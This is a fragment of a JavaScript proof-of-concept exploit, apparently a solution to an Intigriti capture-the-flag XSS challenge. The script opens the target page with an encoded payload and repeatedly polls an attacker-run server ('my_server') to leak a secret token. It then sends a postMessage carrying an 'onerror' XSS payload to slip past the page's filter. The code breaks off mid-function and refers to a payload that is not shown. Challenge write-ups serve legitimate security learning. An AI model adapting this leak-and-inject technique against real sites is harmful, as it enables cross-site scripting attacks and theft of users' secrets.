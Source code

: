 ```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;head&gt;
    &lt;meta charset="UTF-8"&gt;
  &lt;/head&gt;
  &lt;body&gt;  
  &lt;/body&gt;
  &lt;script&gt;
    var payload = // see above
    payload = encodeURIComponent(payload)

    var baseUrl = 'https://my_server'

    // reset first
    fetch(baseUrl + '/reset').then(() =&gt; `{`
      start()
    `}`)

    async function start() `{`
      // assume identifier start with 1
      console.log('POC started')
      if (window.xssWindow) `{`
        window.xssWindow.close()
      `}`

      window.xssWindow = window.open(`https://challenge-0421.intigriti.io/?error=$`{`payload`}`#1`, '_blank')

      polling()
    `}`

    function polling() `{`
      fetch(baseUrl + '/polling').then(res =&gt; res.text()).then((token) =&gt; `{`

        // guess fail, restart
        if (token === '1zz') `{`
          fetch(baseUrl + '/reset').then(() =&gt; `{`
            console.log('guess fail, restart')
            start()
          `}`)
          return
        `}`

        if (token.length &gt;= 10) `{`
          window.xssWindow.postMessage(`{`
            type: 'waf',
            identifier: token,
            str: '&lt;img src=xxx onerror=alert("flag`{`THIS_IS_THE_FLAG`}`")&gt;',
            safe: true
          `}`, '*')
        `}`

        window.xssWindow.location = `https://challenge-0421.intigriti.io/?error=$`{`payload`}`#$`{`token`}``

        // After POC finsihed, polling will timeout and got error message, I don't want to print the message
        if (token.length &gt; 20) `{`
          return
        `}`

        console.log('token:', token)
        polling()
```